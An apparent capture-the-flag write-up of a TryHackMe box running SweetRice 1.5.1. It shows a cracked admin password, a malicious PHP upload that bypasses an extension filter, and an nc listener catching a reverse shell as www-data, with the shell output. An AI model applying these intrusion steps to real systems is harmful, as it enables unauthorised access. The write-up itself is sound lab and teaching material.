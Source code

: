   `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,

  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>



I was correct. The hash highlighted has a password of 

Password123
What is the username? Just admin or manager?
Going back to the login. http://10.10.120.162/content/as/ 

Got it. 
{Screenshot1}


It was manager Password123
Now that we have access to the dev page, we need to setup a reverse shell to see what on the server for the user.txt. Oing off of what we ave done before, we need to setup nc and setup a reverse shell listener on the site. 
We also have 
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                               | php/webapps/40700.html

As a hint.
Using as the listener php file, wont be filtered because we are admin for note.

Starting at the post section and going to add the malicious php file to the website. 
{Screenshot 2}
{Screenshot 3}




I have the file uploaded, but no listener. Going to restart. Same thing, buts its timing out. I think php5 is being filtered or denied by defaulter. 
Tried phtml same thing.
Had some formatting issues with php5, php and phptml but it seems phptml seems to work fine.
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.6.7.227] from (UNKNOWN) [10.10.120.162] 58646
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 20:51:49 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
